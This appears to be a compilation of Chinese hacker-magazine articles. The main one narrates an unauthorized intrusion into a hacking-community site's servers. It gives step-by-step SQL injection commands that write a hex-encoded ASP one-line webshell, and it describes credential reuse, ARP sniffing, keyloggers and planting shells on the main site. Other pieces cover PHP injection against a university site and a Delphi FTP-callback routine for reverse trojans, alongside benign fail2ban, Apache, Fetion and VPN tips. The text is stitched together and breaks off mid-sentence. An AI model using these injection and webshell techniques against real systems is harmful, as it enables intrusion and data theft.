最后总结一下，整个系统瞬间崩溃的致命点就是这个调用的 Windows 系统游戏。我们通过一个常见的小游戏继而入侵成功，因此在这里建议作者把这个游戏去掉或者是更新为其它的游戏。Hack 无所不在，只是需要各位朋友在生活中的细心观察，积极动手即可。

> **编辑点评：**
> 能获取到这台机器的系统权限是个好事，但是我总觉得缺少了点什么。是不是能通过这台机器改变你唱歌的时间，或捣乱一下其它房间的点歌系统才算是目的呢？我这想法有点龌龊了，呵呵。

---

图 飞狼 & 上帝之爱 & 冰 sugar

本文写的是一次渗透流程，流程里有很多基础的知识。

最近一直都很闲，就准备去“黑客榜中榜”找个目标练练手。看到“华夏黑客同盟”当仁不让的排在第一位，我就有点跃跃欲试了。

据我所知：“华夏黑客同盟”以前和“黑基”并称中国黑客界的两大航母，现在依然是商业黑客网站的三巨头之一，但是安全却一直是个问题。自从上次“华夏黑客同盟”DNS 服务器被黑以来，也有几个月了，不知道华夏现在的安全怎么样了？所以就拉上飞狼和小冰对华夏再来一次检测吧！

## 一、信息搜集

俗话说：知己知彼，方能百战不殆！那么首先我们就要去摸清对方的情况！Ping 了华夏所有网站（包括分站在内），根据返回的信息发现：华夏由于本身也是做 IDC 的，所以经济实力也是蛮强的，主站、论坛以及其它几个分站分别分布在几个段的几台服务器上，而且事后了解远远超出了我之前的想象。

我以为和华夏网站有关系的服务器最多也就是 5 台左右，后来发现有联系的服务器远远不止这个数！况且有的机器还是多网卡，错综复杂，根本一时难以判断，大大增加了困难，当然这是后话！

当把信息搜集之后，开始确定一套思路，进而能够成功攻破华夏的防线。大家都知道这类网站从主站下手很难，旁注是不可能的，人家是独立服务器，况且很多分站也是独立服务器，所以只能嗅探了。

但是即使是嗅探也不能盲目的去嗅探，他们的主站肯定是有针对措施进行防护的，所以我们只能改变方略：从不起眼的分站服务器的 C 段下手，得到服务器之后，从服务器上面搜集信息，从而迂回渗透主站！

既然有了思路，那么我们就开始干吧！我首先根据前面的信息刺探来挑选第一战的目标，即华夏的几个分站所在的两台服务器（简称目标 A 和 C）和 IDC 所在的服务器（简称目标 B）！

经过 HScan 的扫描发现，目标 A 和 C 所在的 C 段很多都用的是 Serv-U，于是有很大的希望拿下一台来。经过一会的寻找，找到一个网站的 DB 点，可是都闷的是差异备份之后，老是显示 500，连接也连接不上，用 NBSI 来备份也不行，无奈之下只能手工 log 备份了，操作语句及解释如下：

1. `InjectionURL';alter database XXX set RECOVERY FULL` ——（把 SQL 设置成日志完全恢复模式，XXX 为数据库名）
2. `InjectionURL';create table cmd (a image)` ——（新建一个 cmd 表）
3. `InjectionURL';backup log XXX to disk = 'c:\cmd' with init` ——（减少备份数据的大小）
4. `InjectionURL';insert into cmd(a) values (0x3C25657865637574652872657175657374282261222929253E)` ——（插入一句话木马）
5. `InjectionURL';backup log XXX to disk = 'd:\chinakm\test.asp'` ——（备份日志到 WEB 路径）
6. `InjectionURL';drop table cmd` ——（删除新建的 cmd 表）
7. `InjectionURL';alter database XXX set RECOVERY SIMPLE` ——（把 SQL 设置成日志简单恢复模式）

通过以上操作于是得到了一个一句话的 shell，如图 1 所示。于是赶紧连接上那个大马上去，经过一会儿的信息查看，发现 WS 组件被删除，那么就不能执行命令了，而且这台服务器不是用的 Serv-U。这无异大大增加了提权的难度，翻了半天也没有找到什么东西，这个服务器上面就一个站，只找到一个 MSSQL 账号和密码。

当我准备备份到启动项的时候，小冰说他能进服务器了，我汗，这么快就能提权了？他说在某个目录下的 web.config 里面竟然找到了 administrator 和明文密码！这下连 hash 都省的抓了，于是顺利进入服务器，如图 2 所示。

进入服务器之后发现没有防 ARP 软件，估计其它服务器差不多也如此。我准备搞起 Cain 嗅探的时候，他说先别，你没有发现点问题么？仔细看了下我也注意到了，发现密码竟然是以 huaxia77169 加上其它字母符号组合的，最后我们确定这台服务器估计是华夏人的管理的，于是我们用这个密码社工和华夏有关的服务器，最后竟然发现成功社工下一台目标 B 的 C 段上的一台服务器！更可怕的是，这台竟然是华夏的 DNS 服务器，如图 3、图 4 所示。

进去之后，看到“网站”那个地方有“77169”，但是发现不是华夏的网站，只是一个测试用的网站而已，上面只绑定了一个 VIP 的下载站。此时我们就能做点什么了，那就是从 DNS 服务器上下手，但是总觉得有点投机取巧，也达不到渗透学习的目的！

我们在桌面上面发现了保存有华夏的几台服务器的终端密码以及终端端口的 txt 文本，试了之后发现连接不上。过了一会一看日期，竟然是 08 年 11 月的，早都过时了！我们推断这台服务器以前是管理员的常用服务器，管理员经常通过它来连接其它华夏的服务器或者是 FTP，所以桌面上面才会有保存密码的 txt。

这样我们大胆推断华夏肯定有一台服务器也是如此，因为这台服务器的这个功能废弃了，肯定转移到其它服务器上面了，于是取代了 DNS 服务器的这个功能和作用。所以只要我们拿到了那台服务器，华夏的服务器估计都能沦陷了。可是问题来了，我们怎么知道是哪台呢？哎，还是老老实实一步一个脚印的走吧！

## 二、扩大战果

此时我们已经完成了渗透思路的第一步，分别搞到了目标 A 和 B 同网段的两台机器，那么接下来就是继续了！打开 Cain 经过测试后发现，能够成功嗅探信息，于是我们开始了嗅探！

第二天晚上刚上线，飞狼就告诉我成功搞定了目标 C，如图 5 所示，和其它一台服务器（也是留作嗅探 A 的备用），但是目标 A 还是没有嗅探到有用数据，有一点失望。因为目标 A 和 B，还有 DNS 服务器，这三台机器是能否渗透华夏所有服务器的关键！

事后我们发现这台服务器是多网卡的，怪不得我记得某个分站的 IP 不是这个。没有想到的是，我们拿到的目标 C 竟然是几个虚拟机的主系统，服务器上面有华夏的几个分站，如图 6 所示。

话说目标 A 和 C 这边有了突破，B 那边也有了进展，也拿下一台服务器，虽然不是 IDC 的。可能有人问，为什么不去直接嗅探目标呢？不想用 DNS 服务器去嗅探主要是因为：1、DNS 服务器上面经常有管理在线的，容易被发现；2、DNS 服务器的重要性，不想丢失！

用 DNS 服务器去嗅探是实属无奈，根本没有那个段的其它机器去嗅探。因为对方管理员不等同于一般网站的管理员，所以为了保险起见，我们全部抓取 hash，并且安装上键盘记录器，以防丢失权限！

PS：从这几个服务器上面找到了 Serv-U 的配置信息，但是密码都是破解不了的，所以不能帮上忙！

## 三、遭遇挫折

也许是前面进行的太顺利了，所以一场沉痛的打击不可避免的来临了。当我们在服务器上面操作的时候，直接被 T 了，于是感觉不妙……果然，除了最开始拿下的那台服务器之外，所有的服务器都登录不上去了（第一台之所以没有丢失，是因为 web.config 里面保存着管理明文密码，随管理员改动而改动）。好在目标 C 和 DNS 服务器还在，但是 IDC 那个段和目标 A 和 C 那个段的备用主机，却不行了！

于是我又去找了目标 B 同段的一台服务器，费了我一些时间，通过 SQL 注入并提权得到了服务器，如图 7 所示，但竟然不是一个网关，无法进行嗅探！严重崩溃！由于之前嗅探到了几个华夏的管理的邮箱，所以我们进去看看能不能找出点什么东西来突破，但是也没有发现什么重要的信息，如图 8、图 9、图 10 所示。

实在没有办法的时候，我把华夏所有的密码全部弄到一起，做了一个字典，针对 FTP 和 MSSQL 以及终端测试了一遍，仍然无功而返。于是晚上和飞狼、小冰商量了一下，只能等过段时间再搞了，“渗透是需要大量的时间和精力”，这句话一点不假！

## 四、卷土重来

大约过了一个星期，有一天我无意地在看他们网站的时候发现，VIP 站竟然改变了 IP，变成了我们拿下的 DNS 服务器！也就是说，他们因为前一星期我们的入侵，所以改变了相关服务器功能，但是搞笑的是直接把我们需要的东西送上门来了！原来 VIP 站是独立的服务器，这下节省了我们大量时间，如图 11 所示。

于是我赶紧告诉飞狼开工，进入服务器之后就发现，服务器里面的盘有了改变，以前只有三个盘，现在却有 5 个盘。看样子估计 VIP 所在的是移动硬盘，直接插过来了。我们赶紧去那两个盘找信息，里面果然有好多东西，我竟然找到了目标 B 的 MSSQL 账号和密码，但是不允许外连，郁闷了！

我不相信就这么点信息！对了，前段时间飞狼不是说嗅探到了后台账号和密码了吗，但是没有验证码。那么 VIP 站也是用的动易，他们的验证码会不会是一样的呢？翻了半天找到之后发给飞狼，飞狼试了之后说不行！我们在讨论的时候，飞狼说搞定了 77169.org（最后断定这台服务器用的也是多网卡）的 shell，我狂汗啊！

他说说是同步专家弄上去的，是从目标 C 服务器上面找到的，之前由于忙于其它的就没有对我们说。汗！由于我之前是专门找账号和密码之类的信息，所以根本就没有去 C 盘找，怪不得呢！我去目标 C 服务器看了下，果然如此，但是只能同步到目标 A 服务器，不能同步到主站和论坛！不过我使用时却打不开，飞狼说需要修改 hosts 文件的内容或者是用 IP 代替域名，不然打不开！如图 12、图 13 所示。

拿到 shell 之后，发现权限还可以，盘符基本都可以浏览！由于这台服务器用的是 Serv-U，知道没有希望，还是试着提了一下，无果。本想找 Serv-U 的目录，翻了半天没有找到。后来一想：当初在其它几个服务器里的时候，发现这些重要的软件程序都是放在管理员的桌面上的，没有权限也就不能访问查看了。

扫终端的时候发现了 7161 端口，那个不是 SYN 的端口么？看来目标 A 上面也有 SYN 同步专家，所以去访问了下 `C:\Program Files\syn` 目录，郁闷的是 `C:\Program Files` 能访问，syn 目录却做了设置，无法访问。由于不支持 aspx，所以暂时也没有办法！

但是此时 Program Files 目录下的一个文件夹我觉得有点可疑！直觉告诉我：它和同步专家有联系（由于文件夹名和 syn 有关系，好像是什么 dbsyn），但是找了几次都没有找到什么有价值的东西，只是一些记录文件。

这时候我们商量如何继续的时候做出了推测：由于服务器上面有太多黑客工具和软件，所以服务器上面没有杀毒软件，这对我们有很大的利用价值，这样就可以备份启动项了，而不用去关心远控免杀不免杀的问题！

于是商量之后飞狼他们便去备份启动项去了！我此时又去翻了翻刚才那个可疑文件夹，果然在那个目录下的某个连接记录的文件里面找到了主站的 MSSQL 账号和密码。直接连接没成功，看来不允许外连。飞狼让我在 shell 里面试着连接一下，哈哈，竟然能连接上！如图 14 所示。记得我们手里还有一个目标 B 的 MSSQL 账号和密码，试着连接了一下，发现还是不行！

## 五、攻略主站

主站能连接上的话，就好办多了，我们直接在这个 shell 里面通过主站的 MSSQL 账号和密码来构造一个注射点，然后找出网站路径去备份一个一句话 shell 到主站。构造好之后，使用啊 D 列出来了路径，然后就是备份了（参照开始的 log 备份），备份进去后得到了一句话，如图 15 所示。

列目录的时候，我和飞狼有分工。飞狼去找路径，我去找有用的信息，当时在站里看到了 FlashFXP，于是通过一句话直接把三个 .dat 文件给下载了下来，如图 16 所示。我在本地打开 FlashFXP 后惊了！竟然有华夏的很多服务器上面分站的 FTP。但是发现高兴的太早，都不能连接，无法使用，过期了，无语！

这时候只能从 shell 里面翻东西看看有没有办法了！就在我们往上面写大马的时候，发现出事了，竟然写不进去。我以为是马的问题，换了一个小马还是写不进去，换其它目录也不行。飞狼这时候也说了：他也试了，都写不进去！最后我们讨论之后得出的结论是：做了虚拟目录映射或者是主站的更新操作等都是通过同步专家来搞定的。

但是郁闷的是，目标 A 和主站服务器上面的同步专家目录文件都不能去访问！这下玩大了，如果不能尽快拿下主站的权限，备份的一句话被发现是肯定的。更郁闷的是，无巧不成书，第二天不知道哪个人，竟然偏偏这个时候发出来了个华夏被黑的帖子，这下不好收场了，估计华夏的人看到后去服务器进行清理，发现我们的杰作的话，77169.org 和主站的权限将全部丢失！

**后记：**
其实想拿回来也不是件难事，因为手里掌握着大量的信息，关键是因为马上就要放暑假了，我们要忙于自己的事情，也就很少有时间去关心这个了。另外，由于写作水平以及过程中的复杂性，许多东西都省略了，只是想尽量简单和清楚的呈现给大家！

**体会：**
本次过程都是运用的基础知识，根据此次渗透，大大的加深了自己的知识点，但是还是发现自身有缺陷的地方，在实战中找到自己的不足，并学习弥补，这才是玩脚本渗透的唯一目的。另外，其实渗透也就是一场攻与防的游戏。对于双方来说：在这个过程中你需要做的就是将你所学会的东西灵活的运用起来，不同的是双方的立场以及目的相对立罢了！最后对于华夏以及其他的管理员，只想说：在攻与防的对立上，莫要做纸老虎，一捅即破！

**编辑点评：**
文章中用到的还是一些基础的东西，但这些基础的东西要掌握的很熟练的话，一定要做大量的实践操作。

---

## 记一次万分曲折的入侵
图 applychen

- 本文你可以学习到：
  1. PHP 的常规注入；
  2. Linux MySQL BackDoor 的使用。

这个站点是某高校研究生招生网，采用 PHP 脚本编写，整站用 Win+IIS+MySQL 构建。根据经验，像这类下属站点安全一般都不太靠谱，点开个通告链接，在链接后加个引号，虽然没有报错，但是还返回了不同页面，如图 1。

用 `and 1=1` 和 `and 1=2` 判断，两次返回不同页面，如图 2，说明这个地址可以注入。再用 `order by 10` 确定字段数，返回错误；修改为 `order by 5` 时返回正确，暴出用户和版本，如图 3。把注入点填入工具中，接下来的工作交给工具来做。

这里先停一下，理一下思路。我的方法是：**破解出管理员账户和密码登录后台，通过后台来获取 WEBSHELL。再则就是用 load_file() 函数来读取源代码，从源代码中找突破口。** 从图 3 中可以看到，MySQL 是以 ROOT 用户登录的，这种情况下极有可能可以 load_file 出源代码。

好了，用工具就是方便，一会儿就破解出管理员账号密码了，如图 4，但这个 MD5 值在各大 MD5 反查网上都没查出来，看来登后台这条路断了。那么我们用 `load_file()` 函数读出代码，看能不能找到突破口。先用 `c:\boot.ini` 试试，填入工具中，可以读取内容，如图 5。

但是这里出现个问题，没有暴出网站的绝对路径。刚开始的时候想通过限制本地网速来达到暴路径的目的，但在用 Skiller 限...```
action = iptables[name=ProFTPD, port=ftp, protocol=tcp]
sendmail-whois[name=ProFTPD, dest=wzhpro@gmail.com, sender=fail2ban@mail.com]
logpath = /var/log/proftpd/proftpd.log
maxretry = 5
```

和屏蔽 ssh 口令猜解的例子类似，只是 filter 和 logpath 进行了改变。

最后，管理员可以使用 `service fail2ban start` 命令来启动 fail2ban。如果需要设置开机自启动，可以执行 `chkconfig --level 35 fail2ban on`。

如果有人在破解我们的口令，服务器会自动屏蔽攻击者的 IP，并向我们发送警告邮件，如图 3。

> **编辑点评：**
> 攻防两方面，相辅相成。对于菜鸟来说，可能你没有接触过 Linux，其实 Linux 下的攻防工具是很丰富很强大的。

## 巧妙配置 Apache 增强 Windows/Linux 服务器安全性

- **从本文你可以学到：** 如何通过配置 Apache 来让他人无法探测操作系统信息

发现一个问题，每次我做 Web 安全检测时，首先要获取的信息就是对方的 Web 服务器的操作系统类型（是 Windows 操作系统还是 Linux/Unix 操作系统），还有用的是什么 HTTP 服务软件（IIS/Apache/Nginx/Lighttpd 或者其它）。但是很多时候我只能获得对方使用的 Apache，如图 1，操作系统和版本都无法获得，这给入侵增加了不少难度。

这里我用的环境是 Windows+Apache，现在我们来巧妙地配置一下，用以迷惑那些菜鸟黑客。打开 Apache 的配置文件 httpd.conf，修改以下选项，如图 2：

- ServerTokens full 改为 prod
- ServerSignature on 改为 off

下一步修改系统默认的 TTL 值（Windows Server 2003 一般是 128），这里我们通过注册表来修改（键值：`HKEY_LOCAL_MACHINE/System/CurrentControlSet/Services/Tcpip/Parameters`）。

依次展开找到 DefaultTTL 这个值，把它修改为 60 以下就可以了（注意是十进制），我们用 Ping 命令来测试下，如图 3。然后我们再用那些常用的扫描探测工具来测试下，看看是不是不显示操作系统了，如图 4。

由此也说明一个问题，很多国外的以及国内的网站都隐藏了 Apache 的版本，由于 Windows 的易用性，我们不能排除他们用 Windows 操作系统的可能性。呵呵，所以大家不要检测不到操作系统的版本时就放弃，多动动脑就有不一样的想法哦！

> **编辑点评：**
> 本文的方法虽然不“新鲜”，但至少能很大地开阔小菜们的思路。其实不光 Apache，就是 IIS 和其它的诸如 FTP、SSH 等服务的信息都是可以更改伪装的，自己动手伪装一下服务器，让黑客们都闪去吧。

## Linux 小技巧：在 CentOS 中使用飞信

园古典娃娃 [sec120]

- **从本文你可以学到：** 如何在 Linux 下安装使用飞信

大概很多朋友都会在 Linux 下使用 QQ 了吧？现在和大家分享一个在 Linux 下使用飞信的方法，关于飞信是什么就不用我介绍了。

我这个方法是在 Pidgin 里面增加飞信的协议模块来实现的，我的系统是 CentOS 5.3，系统自带的 Pidgin 是 2.5.5-3.el5 版本，最新的版本好像是 2.5.8，爱使用新东西的朋友可以自己升级它。

Pidgin (Gaim) 基于 GTK+，并以 GPL 许可协议发行，支持多平台、多语言、多服务、多插件，它是模块化的即时通讯客户端程序，同时支持 QQ、MSN、Jabber (gtalk)、AIM、Yahoo!、ICQ、IRC、SILC、Novell GroupWise、Napster、Zephyr 和 Gadu-Gadu 等多种聊天工具，但目前还不支持飞信，不过我们可以自己为它加入支持飞信的协议模块。

飞信的协议支持模块下载地址在：http://github.com/gradetwo/fetion/tarball/master，下载到的文件名是：fetion_v0.98-5.X86-32.tar.gz，里面只有一个 libfetion.so 文件，直接解压出来。官方介绍说把 libfetion.so 文件放置到 `$HOME/.purple/plugins/` 或者 `/usr/lib/purple-2/` 及 `/usr/local/lib/purple-2/` 就可以了。

如何放置到 `$HOME/.purple/plugins/` 目录呢？`.purple` 是一个隐藏目录，其下面的 `plugins` 目录是要我们自己来创建的，比如我的用户名是 akast，飞信插件放在 `/home/akast/Desktop/` 下，那就先用 `cd` 命令转到该目录，注意命令都区分大小写的。

输入命令：`cd /home/akast/.purple`，然后用 `sudo` 命令创建 `plugins` 目录，输入命令：`sudo mkdir plugins`。如果没有 `sudo` 命令，那么可以先用 `su` 命令来转到 root 权限再创建目录。

接着用 `cp` 命令复制飞信插件到 `/home/akast/.purple/plugins/`，命令为：`sudo cp /home/akast/Desktop/libfetion.so /home/akast/.purple/plugins/libfetion.so`。

CentOS 5.3 没有 `/usr/local/lib/purple-2/` 这个目录，有个 `/usr/lib/purple-2/` 目录，直接用命令复制过去就行了，命令为：`sudo cp /home/akast/Desktop/libfetion.so /usr/lib/purple-2/libfetion.so`。

但是这样复制过去还是没有权限运行的，我们要使用 `chmod` 命令来为它设置一下权限，命令为：`sudo chmod 777 /usr/lib/purple-2/libfetion.so`，完成后重启 Pidgin 就可以看到飞信了。重启就是把它关了再重新打开，哈哈。

但是现在还不能够使用，因为我们的 Pidgin 中没有飞信的 SSL 证书，所以如果现在登录的话会提示 SSL 证书错误，如图 1。

我们先来为 Pidgin 加入飞信的 SSL 证书，打开 https://nav.fetion.com.cn，我们是 Linux 系统，当然是用 Firefox 来访问了。第一次访问这个网站的时候，火狐浏览器会提示“安全连接失败，使用了无效的安全证书，该证书仅对 uid.fetion.com.cn 有效”，如图 2。这没关系，我们点击“或者，您可以添加一个例外...”，然后选择“添加例外”，如图 3，依次选择“获取证书” — “查看” — “细节” — “导出”，把证书保存出来就可以了，如图 4。

接下来为 Pidgin 导入证书，在 Pidgin 的“工具” — “证书” — “SSL 服务器” — “添加”找到刚才导出的文件添加进去就可以了，如图 5。

到这里我们就可以在 Linux 下正常地使用飞信了，但是除了要用户名（也就是手机号码）和密码之外，还需要填服务器的 IP：221.130.44.193，因为它还不能自动寻找服务器，如图 6。

> **编辑点评：**
> 飞信的确很好用，但很多朋友反映 Linux 下的飞信安装怎么不能用啊？这篇文章解答了您的难题了吗？呵呵，装好飞信，别忘了服务器 IP 和证书哦。

## Ubuntu 下使用 Hotspot Shield 免费 VPN

Mickey [I.S.T.O]

- **从本文可以简单了解 Ubuntu 下的免费 VPN**

原来在 Windows 下做渗透的时候，为了穿墙，用的最多的就是 HotspotShield 了。现在随着工作需要，转到了 Ubuntu 平台，平时浏览网页、穿墙都很简单，用 wine 开启个自由门就行了，可是遇到要对主机进行整体扫描的情况，还是用 VPN 方便。上网找了找资料，配合自己的实践摸索，也可以在 Ubuntu 下实现使用 Hotspot Shield 免费 VPN 的目的了。

首先来到 http://www.hotspotshield.com/clientless/iphone/get_started.php，点击“Get Account ID”按钮，得到 VPN 的 IP 地址 (64.55.144.10) 和账户信息 (wneeds/wneeds)，如图 1。

接下来使用 `apt-get` 安装 `xl2tpd`，命令如下：

```bash
sudo apt-get install xl2tpd
```

编辑 `/etc/xl2tpd/xl2tpd.conf`，添加以下内容：

```ini
[lac hotspotshield]
lns = 64.55.144.10
require chap = yes
refuse pap = yes
require authentication = yes
; Name should be the same as the username in the PPP authentication
name = wneeds
ppp debug = yes
pppoptfile = /etc/ppp/options.l2tpd.client
length bit = yes
```

在 `/etc/ppp/` 目录下新建 `options.l2tpd.client` 文件，添加以下内容：

```text
ipcp-accept-local
ipcp-accept-remote
refuse-eap
noccp
noauth
crtscts
idle 1800
mtu 1410
mru 1410
nodefaultroute
debug
lock
connect-delay 5000
```

这两个步骤的配置效果如图 2。

分别使用 vim 编辑 `/etc/xl2tpd/l2tp-secrets`、`/etc/ppp/chap-secrets` 和 `/etc/ppp/pap-secrets` 文件，填入以下相同的内容：`"wneeds" 64.55.144.10 "wneeds"`，格式对应为：`"VPN 用户名" VPN 的 ip 地址 "VPN 密码"`。最后启动 xl2tpd daemon: `sudo /etc/init.d/xl2tpd start`，这几步的配置效果如图 3。

基本的配置都完成了，现在你可以连接 VPN 了，输入命令：

```bash
sudo su
echo "c hotspotshield" > /var/run/xl2tpd/l2tp-control
```

连接上后流量还不走 VPN，因为还没有配置路由信息，网上的配置方法为 `route add -net 0.0.0.0 dev ppp0`，但是这样做，经过我的实践是不行的。最后和师父讨论了下，我们的解决方案如下：

```bash
route add -net 61.143.154.0 netmask 255.255.255.0 dev ppp0
```

意思就是：让本机的网络流量在访问 61.143.154.0 这个网段时，经过 VPN。访问其它的网段时，依旧走现在的连接。你可以根据自己的实际需要来配置网段，最后看下效果，如图 4。如果有更好的解决方法，欢迎朋友们一起讨论。

> **编辑点评：**
> 作为一款免费的 VPN 软件，HotspotShield 已经深入各位心中，Windows 的简单安装自不必说，这里 Mickey 给出在 Ubuntu 下的方法，值得大家学习和参考。

## 反弹木马编写之 FTP 更新

> **张宇的私房对话：**
> 放一段偶与娘子的笑话，不要看晕哦，呵呵！
> LP->LG ： 这个内存条是 1 代还是 2 代的？
> LP->LG ： 快！
> LG->LP ： 2
> LG->LP ： 2 快
> LP->LG ： 是 DDR1 还是 DDR2 的？
> LG->LP ： DDR2 快
> LP->LG ： 快？
> LG->LP ： DDR2 快
> LP->LG ： 2 代还是 2 快？
> LG->LP ： 2 代就是 DDR2
> LP->LG ： 那 2 快呢？
> LG->LP ： ？？
> LP->LG ： “LG 说：DDR2 快。”
> LG->LP ： 不懂你要问什么
> LG->LP ： DDR2 比 DDR1 快
> LG->LP ： 就是 2 代比 1 代快
> LP->LG ： 我知道，你打的“DDR2 快”，我问你这个“快”是不是“代”的意思！
> LG->LP ： 不是
> LG->LP ： 就是 DDR2 比 DDR1 快
> LP->LG ： 那你给我这根是 2 还是 1 呢？
> LG->LP ： 1
> LP->LG ： 那你说 1 不就行了，搞死我了

图/文 敬小龙

- **从本文您可以学到：** 使用 DELPHI 的 IDFTP 组件实现 FTP 上传

读者朋友在使用灰鸽子等反弹远程控制软件时可以看到它具有一个自动上线功能，其实就是通过 FTP 实现反弹木马服务端的上线，如图 1 所示。在本文中就来模拟实现类似的功能。首先打开 DELPHI 编译器，然后在“Indy Clients”选项卡中找到“IDFTP”这个组件，然后摆放好各个组件的位置，最后效果如图 2 所示。

现在来到代码编辑窗口编写如下代码：

```delphi
procedure TForm1.Button2Click(Sender: TObject);
begin
  close;
end;

procedure TForm1.Button1Click(Sender: TObject);
begin
  try
    idftp1.Host:=edit1.Text;
    idftp1.Port:=strtoint(edit2.text);
    idftp1.Username:=edit3.text;
    idftp1.Password:=edit4.text;
    idftp1.Connect();
    listbox1.items.Add('连接FTP主机成功！');
  except
    listbox1.items.Add('连接FTP主机出错！');
  end;
end;

procedure TForm1.Button3Click(Sender: TObject);
var
  f1:textfile; //声明一个文本文件
begin
  assignfile(f1,'c:\temp.txt'); //绑定句柄
  rewrite(f1); //执行写操作
  writeln(f1,edit6.text); //写入数据
  closefile(f1); //关闭句柄
  listbox1.items.Add('写TEMP.TXT文件成功！');

  idftp1.Put('c:\temp.txt',edit5.text);
  listbox1.items.Add('上传IP文件成功！');
end;
```

程序流程如下：
1. 首先，通过设置 IDFTP 组件的主机、端口、用户名、密码等属性；
2. 然后，通过 CONNECT 方法实现对远程 FTP 主机的连接，连接成功后就显示在列表框中；
3. 再次，打开一个临时文件 temp.txt，然后向其中写入本机的 IP 数据和端口信息；
4. 最后，调用 IDFTP 组件的 PUT 方法实现对这个临时文件的上传，上传成功后就将成功信息显示在列表框中。

编写完毕上面的代码后，现在笔者在本地使用 SERV-U 搭建一个 FTP 服务器，如图 3 所示。此时，按 F9 运行我们编写的程序，填写好 FTP 服务器、端口、用户名、密码和 IP 内容等信息后，单击“连接服务器”连接到 FTP 主机，再单击“上传”按钮即可将本机的 IP 地址和端口信息上传到 FTP 服务器，如图 4 所示。

此时，到 FTP 主机上进行查看，可以看到该 IP.TXT 文件上传成功，如图 5 所示。这样，一个简单的 FTP 更新工具就编写完毕了，读者朋友可以在此基础上进行更多功能的添加，比如添加自动获取本地 IP 的功能，这样用户在使用本工具的时候就会方便很多了。

(文章中所涉及的相关代码及工具都已经收录在本期光盘)

> **编辑点评：**
> 利用 DELPHI 的 FTP 组件实现 FTP 真的很简单，只需了解 DELPHI 语法，新手都可以很快上手。

## 化繁为简进入注册表

- **从本文你可以学到：** 利用注册表 LastKey 项简化注册表操作

### 前言

细心的你是否发现，每次打开注册表编辑器，找到所需的键后，再关闭，在下次打开时注册表编辑器会自动定位在这个位置。而每次进入注册表找东西总是那么繁琐，那一层层的项看得都快晕了，我们是否能利用上面提到的这个特点来简化进入注册表指定项的步骤呢？

### 注册表接口函数

本文只用了三个注册表接口函数 RegOpenKey、RegSetValueEx 和 RegCloseKey。这三个注册表函数都比较容易理解，前者的作用是打开指定的键；中间的作用是写入键值；后者的作用是关闭写入完成的键。

下面分别是三个函数的原型及参数解释：

```vb
RegOpenKey Lib "advapi32.dll" Alias "RegOpenKeyA" (ByVal hKey As Long, ByVal lpSubKey As String, phkResult As Long) As Long
```

- **hKey**：一个已打开项的句柄，或指定一个标准项名；
- **lpSubKey**：要打开的项名；
- **phkResult**：指定一个变量；用于装载（保存）打开注册表项的一个句柄。返回 0 表示成功，非 0 表示一个错误编号。

```vb
RegSetValueEx Lib "advapi32.dll" Alias "RegSetValueExA" (ByVal hKey As Long, ByVal lpValueName As String, ByVal Reserved As Long, ByVal dwType As Long, lpData As Any, ByVal cbData As Long) As Long
```

- **hKey**：一个已打开项的句柄，或指定一个标准项名；
- **lpValueName**：要设置值的名字；
- **Reserved**：未用，设为零；
- **dwType**：要设置的数据类型；
- **lpData**：包含数据的缓冲区中的第一个字节；
- **cbData**：lpData 缓冲区的长度，返回 0 表示成功，非 0 表示一个错误编号。

```vb
RegCloseKey Lib "advapi32.dll" Alias "RegCloseKey" (ByVal hKey As Long) As Long
```

- **hKey**：要关闭的项，返回 0 表示成功，非 0 表示一个错误编号。

### 保存最后注册表地址的项

首先打开注册表编辑器“Regedit.exe”，将键值定位到“HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Run”，接着关闭注册表编辑器，然后再打开，将左侧键列表的滚动条拖动至最上方，点击“我的电脑”，最后点击“编辑”菜单栏中的“查找”，以上面指定的键为关键字进行查找，稍等下就可以看到查找结果了，如图 1 所示。

图 1 中右侧被框起来的就是最后一次进入的那个键的完整路径，下方状态栏中的“HKEY_CURRENT_USER\Software”...“Software\Microsoft\Windows\CurrentVersion\Applets\Regedit”则是当前键的完整路径，其中记录了最后一次打开的键名为“LastKey”。

但是有个问题，从注册表中手工修改，在关闭时会被注册表编辑器以当前所在的键自动覆盖掉。不过可以在程序中修改这个键值，这样就不存在上面的问题了。下面就看一下如何在 VB6 中编写这个程序。

## 设计与实现

首先需要建立窗体，添加控件，这里仅仅只要两个控件：一个文本框和一个命令按钮，它们的 Name 属性分别改为 txtKey 和 cmdChange。

程序首先需要关闭打开的注册表编辑器，防止写入后再关闭而被注册表编辑器覆盖。等编辑器关闭后通过代码来修改注册表值，最后再次打开注册表编辑器。其它就不多说了，直接看代码和注释吧！

```vb
' 声明变量
Dim WindowsPath As String ' 存放 Windows 路径缓存
Public glStatus As Long

' 程序初始化
Private Sub Form_Load()
    ' 初始化存放 Windows 路径缓存
    WindowsPath = String(MAX_LEN, Chr(0))
    ' 获取 Windows 路径
    WindowsPath = Left(WindowsPath, GetWindowsDirectory(WindowsPath, MAX_LEN))
End Sub

Private Sub KeyChange(KeyString As String)
    ' 关闭注册表编辑器
    Call CloseRegWindow
    
    ' 设置最后一次打开的键
    Call gpvSetKeyStringValue(HKEY_CURRENT_USER, "Software\Microsoft\Windows\CurrentVersion\Applets\Regedit", "LastKey", KeyString)
    
    ' 打开注册表编辑器
    Call Shell(WindowsPath & "\regedit.exe")
End Sub

' 关闭注册表编辑器的过程
Private Sub CloseRegWindow()
    Dim RegWindowHwnd As Long ' 存放注册表编辑器窗口的句柄
    ' 查找注册表编辑器窗口的句柄
    RegWindowHwnd = FindWindow(vbNullString, "注册表编辑器")
    ' 判断是否找到
    If RegWindowHwnd <> 0 Then
        ' 找到，则根据句柄关闭注册表编辑器
        Call PostMessage(RegWindowHwnd, WM_QUIT, 0&, 0&)
    End If
End Sub

' 写注册表中的字符串
Sub gpvSetKeyStringValue(ByVal plKey As Long, ByVal psKey As String, ByVal psSubKey As String, ByVal psKeyValue As String)
    Dim lIKeyID As Long ' 打开键的 ID
    ' 设置状态为成功
    glStatus = ERROR_SUCCESS
    ' 判断要读取的键是否设置
    If Len(psKey) = 0 Then
        ' 否，设置状态为没有设置键
        glStatus = REGAGENT_NOKEY
        ' 退出本过程
        Exit Sub
    End If
    ' 打开键
    glStatus = RegOpenKey(plKey, psKey, lIKeyID)

    ' 判断打开是否成功
    If glStatus = ERROR_SUCCESS Then
        ' 成功，则判断新键值是否存在
        If Len(psKeyValue) = 0 Then
            ' 不存在，则设置键值为空值
            glStatus = RegSetValueEx(lIKeyID, psSubKey, 0&, REG_SZ, 0&, 0&)
        Else
            ' 存在，则设置为指定值
